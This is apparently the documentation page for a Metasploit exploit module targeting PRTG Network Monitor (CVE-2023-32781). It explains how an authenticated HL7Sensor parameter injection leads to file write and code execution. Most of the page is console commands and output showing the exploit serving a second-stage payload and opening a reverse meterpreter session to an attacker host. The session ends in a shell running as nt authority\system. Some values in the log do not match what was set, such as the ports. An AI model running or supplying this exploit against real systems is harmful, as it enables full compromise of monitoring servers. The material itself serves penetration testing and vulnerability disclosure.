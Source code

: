 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command line parameter injection vulnerability in PRTG Network Monitor (CVE-2023-32781).

An authenticated attacker can create a HL7Sensor which can be ran with a parameter injection. This will allow the attacker to specify the `-debug` parameter which will allow a arbitrary file write on the system in the context of the user `SYSTEM`.

The module uses provided credentials to log in to the web interface, and then creates the HL7Sensor, together with an EXE/Script sensor which runs the payload. Furthermore it cleans up the sensor creation after succesful exploitation.

This vulnerability affects versions  <= 23.2.83.1760

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

**Successfully tested on**

- PRTG Network Monitor 23.2.83.1760 on Windows 10

## Verification Steps
1. Install the application
1. Start `msfconsole` and run the following:

```
use exploit/windows/http/prtg_authenticated_rce_cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LHOST 192.168.56.1
msf6 exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > exploit
```

`RHOSTS` refers to the PRTG host
`RPORT` refers to the PRTG port
`SRVHOST` refers to the host where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`SRVPORT` refers to the port where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`LPORT` refers to the payload connect port back which in this instance is meterpreter
`LHOST` refers to the payload connect host back which in this instance is meterpreter

After running this you should have a meterpreter instance


## Options
**USERNAME**

PRTG Network Monitor's account that has the right to create Sensors (allowed by default on the initial account).

**PASSWORD**

The password associated with the specified username.


## Scenarios

Running the payload and getting a meterpreter session and then spawning a shell as `nt authority\system`

```bash
msf6 > use exploit/development/cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(development/cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(development/cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf6 exploit(development/cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(development/cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf6 exploit(development/cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf6 exploit(development/cve_2023_32781) > set LHOST 192.168.56.1
msf6 exploit(development/cve_2023_32781) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4446 
[*] Using URL: http://192.168.56.1:10105/sF321hmEZCz
[*] Running PRTG RCE exploit
[+] Successfully authenticated against PRTG
[*] Writing .bat to disk
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] Generated sensor_name Wg83qiZvO
[*] Generated bat_file_name rjKu8O2Pt.bat
[+] HL7 Sensor succesfully created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2095
[*] Requesting HL7 Sensor to initiate scan
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] .bat file written to disk
[*] Running the .bat file: rjKu8O2Pt.bat
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] EXE Script sensor created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2096
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] Exploit completed. Waiting for payload
[*] Exploit done
[*] Command Stager progress - 100.00% done (150/150 bytes)
[*] Client 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428) requested /sF321hmEZCz
[*] Sending payload to 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428)
[*] Sending stage (175686 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4446 -> 192.168.56.1:43926) at 2023-11-23 17:06:34 +0000
[*] Server stopped.

meterpreter > shell
Process 4280 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22621.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system
```
